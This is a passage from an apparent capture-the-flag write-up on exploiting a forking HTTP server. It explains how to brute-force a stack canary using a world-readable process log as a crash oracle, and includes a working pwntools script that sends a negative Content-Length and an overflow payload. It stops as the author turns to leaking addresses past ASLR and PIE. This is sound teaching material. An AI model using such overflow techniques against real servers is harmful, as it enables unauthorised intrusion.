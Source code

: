 Because this request handler is just a fork off of the main parent process which never exits, the canary will not change. This means we can [brute-force](https://ctf101.org/binary-exploitation/stack-canaries/) it. It works by overwriting the first byte of the canary with all (256) possibilities until a crash does not occur. This tells us the first byte, then we can overwrite the second byte to repeat the process.

This technique relies on having an oracle that tells us whether or not stack smashing was detected or the program exited normally. We aren't able to see the *stack smashing detected* output, so what can we use? The HTTP response is the same for both. Do we have any oracle that can tell us if the canary is what's failing?

Looking at `ps_data.log`, a world-readable log for the program, we can see the following:

```
Child 21 handling connection from 172.17.0.1:55366
Child 21 exited with status 0
Child 23 handling connection from 172.17.0.1:55370
Child 23 exited due to signal 6
```

The first exit is a normal request, the second exit is when a canary error is detected! We can brute-force by iterating over each byte until the exit signal is 0!

```python
canary = b''
i = 0
while True:
    print(i, end='')
    if len(canary) == 8:
        break
    io = start()
    io.send(b'Content-Length: -1\r\n\r\n')
    io.send(b'a' * 4095)
    sleep(0.05)
    io.send(b'b' + cyclic(8) + canary + p8(i))
    io.recvall()
    io.close()
    sleep(0.05)
    with open('ps_server.log', 'r') as f:
        lines = f.readlines()
        if lines[-1][-2] == '0':
            print(lines[-1])
            canary += p8(i)
            print("canary:", canary)
            i = -1
    i += 1
```

The canary is taken care of!

#### Leaking Addresses

We can now overwrite the return pointer, but we don't know where we want to go... [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) and [PIE](https://access.redhat.com/blogs/766093/posts/1975793) are going to prevent us from copying and pasting addresses we find from the stack, heap, shared libraries, and the binary itself when developing the exploit locally. Somehow we need to leak an address from the process and then calculate the offsets accordingly.
